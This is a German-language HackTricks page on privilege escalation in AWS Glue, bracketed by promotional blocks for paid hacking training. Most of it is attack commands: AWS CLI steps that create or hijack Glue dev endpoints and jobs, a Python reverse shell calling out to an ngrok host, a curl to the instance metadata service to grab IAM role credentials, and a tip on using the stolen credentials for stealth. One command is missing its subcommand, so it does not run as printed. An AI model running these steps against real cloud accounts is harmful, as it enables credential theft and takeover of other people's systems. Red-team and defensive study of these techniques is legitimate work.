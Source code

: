 # AWS - Glue Privilege Escalation

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Benutzer mit diesen Berechtigungen können **einen neuen AWS Glue-Entwicklungs-Endpunkt einrichten**, indem sie **eine vorhandene Dienstrolle** mit spezifischen Berechtigungen diesem Endpunkt zuweisen.

Nach der Einrichtung kann der **Angreifer eine SSH-Verbindung zum Instanz des Endpunkts herstellen** und die IAM-Anmeldeinformationen der zugewiesenen Rolle stehlen:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Zu Stealth-Zwecken wird empfohlen, die IAM-Anmeldeinformationen innerhalb der Glue-Virtualmaschine zu verwenden.

**Potenzielle Auswirkungen:** Privilege Escalation auf die angegebene Glue-Service-Rolle.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Benutzer mit dieser Berechtigung können **einen vorhandenen Glue-Entwicklungs**-Endpunkt SSH-Schlüssel **ändern und SSH-Zugriff darauf aktivieren**. Dies ermöglicht es dem Angreifer, Befehle mit den Berechtigungen der angehängten Rolle des Endpunkts auszuführen:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potenzielle Auswirkungen:** Privilege Escalation zum verwendeten Glue-Service-Rolle.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Benutzer mit **`iam:PassRole`** in Kombination mit entweder **`glue:CreateJob` oder `glue:UpdateJob`**, und entweder **`glue:StartJobRun` oder `glue:CreateTrigger`** können einen **AWS Glue-Job erstellen oder aktualisieren**, indem sie ein beliebiges **Glue-Service-Konto** anhängen und die Ausführung des Jobs initiieren. Die Fähigkeiten des Jobs umfassen das Ausführen beliebigen Python-Codes, der ausgenutzt werden kann, um eine Reverse-Shell herzustellen. Diese Reverse-Shell kann dann genutzt werden, um die **IAM-Anmeldeinformationen** der Rolle, die dem Glue-Job angehängt ist, zu exfiltrieren, was zu potenziell unbefugtem Zugriff oder Aktionen basierend auf den Berechtigungen dieser Rolle führen kann:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potenzielle Auswirkungen:** Privilege Escalation auf die angegebene Glue-Service-Rolle.

### `glue:UpdateJob`

Nur mit der Update-Berechtigung könnte ein Angreifer die IAM-Anmeldeinformationen der bereits angehängten Rolle stehlen.

**Potenzielle Auswirkungen:** Privilege Escalation auf die angehängte Glue-Service-Rolle.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
